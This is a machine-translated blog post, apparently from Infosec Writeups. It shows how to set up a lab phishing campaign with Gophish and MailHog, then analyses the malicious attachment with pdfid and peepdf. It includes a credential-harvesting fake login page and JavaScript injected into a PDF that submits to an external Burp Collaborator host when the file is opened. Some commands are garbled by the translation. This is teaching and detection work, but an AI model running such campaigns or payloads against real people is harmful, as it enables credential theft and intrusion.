# 网络钓鱼:创建和分析

> 原文：<https://infosecwriteups.com/phishing-creating-and-analyzing-ed73e5fec7b6?source=collection_archive---------1----------------------->


大家好，

在这个博客里，我要钓鱼。直接得出结论是没有意义的，所以我将从“如何创造”到“如何做”来解释。

下面是我要用来完成这项任务的要点:

1.  码头工人
2.  Gophish
3.  邮件猪
4.  示例 pdf 文件
5.  JS2PDFInjector
6.  peepdf
7.  pdfid
8.  雷姆努

使用 docker 的目的既是为了学习，也是为了轻松。

为了提高服务 Gophish 和 Mailog，我在 docker YAML 文件中定义了它们。

```
services:
  gophish:
    image: "gophish/gophish"
    ports:
      - "3333:3333"
  mailhog:
    image: "mailhog/mailhog"
    ports: 
      - "1025:1025"
      - "8025:8025" 
    depends_on:
        - gophish
```

# **创建**

**概述**

首先，我将把恶意的 js 代码注入一个 pdf 文件。然后我会用附加的恶意 pdf 文件钓鱼。我还将创建一个假的登录页面，并捕获受害者提交的凭据。

## 步骤 1:创建恶意 pdf 文件

我使用 JS2PDFInjector 将一个简单的恶意 JS 代码注入一个 pdf 文件。链接:【https://github.com/cornerpirate/JS2PDFInjector 



这将在 pdf 阅读器上打开文件时弹出警告。不是所有的 pdf 阅读器都会执行代码。Adobe Acrobat 包含读取 js 代码的 API。在这篇博客中，我们将使用 acrobat 进行概念验证。

```
app.alert("alter alert");
this.submitForm('[http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net'](http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net'));
```



将代码注入 sample.pdf 文件

```
**java** -jar JS2PDFInjector-1.0.jar $(pwd)/sample.pdf app.js
```

记住:您需要提供 pdf 的绝对路径。否则，您将会遇到如下图所示的错误。



## 步骤 2:创建网络钓鱼活动

从我们添加了两个服务 **Gophish** 和 **Mailhog** 的 compose 文件开始。

[**Gophish**](https://getgophish.com) 是一款为企业和渗透测试人员设计的开源钓鱼工具包。它提供了快速、轻松地设置和执行网络钓鱼服务和安全意识培训的能力。”

**MailHog** 创建假的 SMTP 服务器用于测试目的。

把前面提到的 docker 文件旋转起来。



**gophish** 服务器暴露于端口 3333。默认用户名为“ **admin** ”，密码为“ **gophish** ”。但是，默认密码不会匹配，因为 docker 的密码在每次启动服务时都是不同且唯一的。

```
**docker** run -it --rm -p 3333:3333 gophish/gophish
```

如果你没有使用排版工具，我建议你在前台模式下运行。控制台将以前台模式显示标准输出、输入和错误。以分离模式运行将隐藏所有这些文件处理过程日志。

滚动一下就能得到密码。



更改密码。



现在我们已经登录了。



为什么我们不先测试一下我们的 SMTP 服务器是否正常工作？

至于发邮件，我们需要一个 SMTP 服务器。这种协议广泛用于发送、接收或转发外发电子邮件。

**发送配置文件**是我们配置 SMTP 服务器的地方。我们使用**邮件猪**来测试 SMTP 服务器。它是免费的，非常容易使用。

**Mailhog** 将 SMTP 服务器绑定到地址 0.0.0。:1025.



它还提供了 **GUI** ,在那里它存储发出的电子邮件并显示连接。



1.  **发送配置文件**

创建新的**发送配置文件**。写上名字。“**phish-test@mail.com**”是我要发送邮件的邮件。在主机中，我们需要用 SMTP 服务器来填充它。我已经提供了由 **mailhog** 暴露的 SMTP 绑定地址，即 **0.0.0.0:8025**



我正在向测试邮箱“hello-testme@mail.com”发送邮件。



点击“发送”按钮。



如您所见，它抛出了一个错误。它无法连接到**邮箱**。

不使用 docker 就不用面对这个问题了。

我认为没有建立连接的原因是因为运行在不同的容器上。为了使它成功，我们必须连接分配给它的 IP，而不是绑定地址。如果在 **a 桥**网络中，容器可以在同一个主机中相互通信。它是默认的网络，提供了 docker 容器之间相互通信的可访问性。

请注意为网络钓鱼服务创建的网络 id。



```
**docker** network ls **docker** network inspect fcff01c8be6a
**docker** network inspect bridge
```

让我们找到分配给它的网络 IP。两个容器都有一个网关。但是为了更早地解决问题，我们必须获得分配给容器 **mailhog 的 IP。**



滚动直到我们找到分配给该容器的 IP。



现在我们用上面的 IP 试试。



电子邮件已成功发送。



我们收到了。



现在，保存配置文件。

**2。登陆页面**

登录页面是当受害者单击攻击者创建的链接时向其显示的页面。网页可以是任何容易吸引受害者的东西。比如抽奖页面，紧急密码重置页面等。如果你欺骗了某人，那么你可以从他/她那里得到任何东西。作为一个攻击者，你在制作登陆页面的时候也应该非常有创意。如果网页看起来不吸引人，受害者上当的机会就更少。

看看下面这一页，谁会上当呢？没人。

对于这个博客，我会继续下去。这是一个简单的登录页面。

我将记录目标电子邮件用户提交的用户名和密码。

我还会附上我们之前创建的 pdf 文件。



```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Right Now Nothing</title>
</head>
<body>
    <form method="post">
        name: <input name="username" ><br>
        pass: <input name="password" ><br>
    <input type="submit" value="submit"></form>

</body>
</html>
```

我正在使用的 HTML 和 PHP 文件。

我们在 ngrok 的帮助下创建了一个隧道。

```
**ngrok** http 9002
```



我们还必须启动本地服务器，否则它将无法创建隧道连接。



我们导入网站。放上 ngrok 创建的转发 URL。

我们甚至可以复制 HTML 内容，而不是导入它。两者都有各自的目的。它只会导入我们创建的静态页面。



请注意，呈现了 HTML 页面。



我还添加了一个重定向页面。


省省吧。您还可以修改和删除页面。



**3。电子邮件模板**

**邮件模板**是发送给邮件目标的内容。你可能已经注意到了 Gmail 中的邮件正文。电子邮件模板代表了这一点。这是你要发送给目标用户的正文内容。

我创建的钓鱼邮件内容的糟糕示例。XD
你可以创造自己的。如果我是一个钓鱼者，我会失败得很惨。

我们正在创建一个 HTML 模板。这样我们就可以插入 HTML 标签、元素等。



[{{。URL}}](/{{.URL}}) 这将自动创建链接。它将是我们的 gophish 服务器 IP。

{{.名字}}将显示目标电子邮件用户的名字。您将在“用户和组”部分看到这一点，我们必须添加要向其发起网络钓鱼活动的用户。



你可能也注意到了“添加跟踪图像”。它的目的是确保 gophish 知道用户何时打开电子邮件。

我们已经成功创建了一个电子邮件模板。



忘记加附件了。我们来编辑一下。点击“添加文件”并选择 pdf 文件。



我们必须再次拯救它。

**4。用户&组**

我们添加用户，基本上，我们可以从网络钓鱼者的角度说受害者。还有一个批量导入用户的选项。



我们添加了一个示例用户 **john wick。**我们可以修改和删除群组。

**保存它。**



**5。活动**

这是最有趣的部分。从这里我们发动攻击，监控电子邮件活动，如打开电子邮件，点击链接等。

创建一个新的活动，其中我们有一个电子邮件模板，登录页面，以及我们先前创建的相关组。

请记住，URL 应该是一个 gophish 侦听器，并且应该可以被目标用户访问。“172.18.0.2”是我的 gophish 服务器运行的 IP 地址。当我运行 docker 时，情况就像以前一样。只要确保 URL 应该是 gophish 侦听器即可。



将 IP 反映到正文中会使其非常可疑，并且将 IP 地址直接放入电子邮件正文中不是一个好习惯。我已经在我的主机文件中添加了一个主机名。这将把我的 gophish **IP 地址**解析成**“testing server . op”。**

如果你记得我们把 [{{。网址}}](https://mail.google.com/mail/u/1/%7B%7B.URL%7D%7D) "在我们的电子邮件模板中。实际上，我们在这里放了一个 gopher 监听器 URL。


是时候发射了。



仪表板提供了清晰的视野。该状态表示电子邮件发送成功。

让我们进入我们的 mailhog GUI。我们的收件箱里有一封电子邮件。



我们已经收到一封电子邮件。



我们可以在 MIME 部分找到我们的附件 pdf。



下载附件中的 pdf 文件。

注意链接并打开它。是的，会显示登录页面。



填写表格并点击提交按钮。


我们将被重定向到指定的页面。



只要看看仪表板。我们发现:

1.  链接被点击了多少次
2.  数据提交了多少次
3.  电子邮件的链接被打开了多少次



点击按钮，即查看结果。



是的，我们成功获取了用户名和密码。

是时候打开我们之前下载的 pdf 文件了。

它执行我们插入的 js 代码。查看有效负载产生的爆音。

```
app.alert("alter alert");
```



当然，你可以做的不止这些。我建议对这个主题进行更多的探索。

```
this.submitForm('http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net');
```

我们每次都必须点击“允许”,这使得整个过程非常繁琐。

(仅适用于上述有效载荷)



我在我的 burp collab 服务器上获得了 DNS 和 HTTP 请求。



这都是关于如何发起网络钓鱼运动。

# 分析

从这一点出发，我们将分析所有这些活动。

分析部分应该总是在沙盒环境中完成。走出沙盒环境就像容易死亡。无红利(ex-dividend)

你的第一步应该是在电子邮件中寻找任何奇怪的东西。

1.  分析来源
2.  尝试找到电子邮件的来源，如发件人 IP

要查找分析电子邮件标题的站点

 [## 邮件头

### 编辑描述

toolbox.googleapps.com](https://toolbox.googleapps.com/apps/messageheader/analyzeheader)  [## 消息头分析器

### 编辑描述

mha.azurewebsites.net](https://mha.azurewebsites.net/) 

3.提取 URL 和取消 URL 的绑定

[](https://gchq.github.io/CyberChef/#recipe=Extract_URLs%28false%29Defang_URL%28true,true,true,%27Valid%20domains%20and%20full%20URLs%27%29&input=aHR0cDovL2dvb2dsZS5jb20) [## 网络咖啡馆

### 网络瑞士军刀-一个用于加密、编码、压缩和数据分析的网络应用程序

gchq.github.io](https://gchq.github.io/CyberChef/#recipe=Extract_URLs%28false%29Defang_URL%28true,true,true,%27Valid%20domains%20and%20full%20URLs%27%29&input=aHR0cDovL2dvb2dsZS5jb20) 

4.检查可疑 URL 或 IP 地址的 DNS 记录

5.对可疑的网址或 IP 地址进行截图

[](https://www.url2png.com/) [## 截图即服务

### 在您的应用中快速可靠地捕捉任何网站的快照。

www.url2png.com](https://www.url2png.com/) 

6.检查 URL 或 IP 是否被列入黑名单

[](https://www.ipvoid.com/ip-blacklist-check/) [## IP 地址黑名单检查，IP DNSBL 检查| IPVoid

### 扫描一个 IP 地址通过多个基于 DNS 的黑名单(DNSBL)和 IP 信誉服务，以促进…

www.ipvoid.com](https://www.ipvoid.com/ip-blacklist-check/) 

7.检查 URL 或 Ip 地址是否是恶意的

 [## 病毒总数

### 病毒总数

VirusTotalwww.virustotal.com](https://www.virustotal.com/gui/home/upload) 

8.下载附件，得到它的散列，然后分析它们是否是恶意的

 [## 病毒总数

### 病毒总数

VirusTotalwww.virustotal.com](https://www.virustotal.com/gui/home/upload)  [## Talos 文件信誉

### 输入文件的 SHA256 以搜索 Talos 的当前文件信誉系统。处置搜索将返回文件的…

talosintelligence.com](https://talosintelligence.com/talos_file_reputation) 

9.最后，我们深入分析，我们使用不同的恶意软件分析工具。应遵循自动和手动方法。

当然，还不止这些，但是根据我们这个博客的上下文，我们将分析附件中的 pdf。

我将使用 remnux 发行版来分析 pdf 文件。

" **REMnux** 是一个用于逆向工程和分析恶意软件的 Linux 工具包。REMnux 提供了一个由社区创建的免费工具的精选集合。分析师可以使用它来调查恶意软件，而不必查找、安装和配置这些工具。”

我已经提取了图像。

```
**docker** pull remnux/remnux-distro**docker** run --rm -itd remnux/remnux-distro /bin/bash**docker** cp downloadme.pdf '<contid>:/tmp'**docker** exec -it d3511ccab833 /bin/bash
```

我们现在进入集装箱。



首先，检查 pdf 是否有正确的幻数。



要查看它，请访问这里:【https://en.wikipedia.org/wiki/List_of_file_signatures 

似乎是正确的。

让我们用一个叫做 **pdfid** 的工具来分析这个 pdf 文件。



它包含一些 javascript。我们最好不要打开 pdf 文件，因为/OpenAction 也是 1，这意味着 js 将在打开 pdf 文件时采取一些行动。

你还能在下面找到什么标题？

```
The first 7 words or less to it , you can find them in almost every pdf./Page - the number of pages in pdf/Encrypt - stipulates a password need to be read/ObjStm - object streams/Js - pdf file may contains js code which could be malicious to open/AA  and /OpenAction - action that will carried out automatically when we open a pdf file. Could automatically launch malicious js commands/AcroForm - pdf form authored with Adobe Acrobat Pro/Standard/JBIG2Decode - indicates pdf uses JBIG2Decode compression/RichMedia - use to embed files,videos etc on pdf/Launch - to lauch some actions/EmbeddedFile -   contains some external files/XFA - XML Forms Architecture/URI -  Url to access
```

我发现 **peedpdf** 比 **pdfid** 更酷，因为 **peepdf** 可以提供相同的信息。已经发现 pdf 包含一些**可疑元素**即 JS

```
pdfid lastone.pdf
peepdf lastone.pdf
```



我们可以使用这些工具提取 js 内容。为此，我们必须编写一个简单的脚本。即**提取 js > aything.txt**

将它保存在一个文件中。

echo ' extract js > extracted . txt ' > any thing . txt

现在提取 js 内容。

peep df-s extract . txt malicouspdf.pdf

```
echo ‘extract js > extracted.txt’ > anything.txt
peepdf -s extract.txt malicouspdf.pdf
```



js 内容被成功提取。

感谢您的阅读。:)

祝你白天/晚上愉快。

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)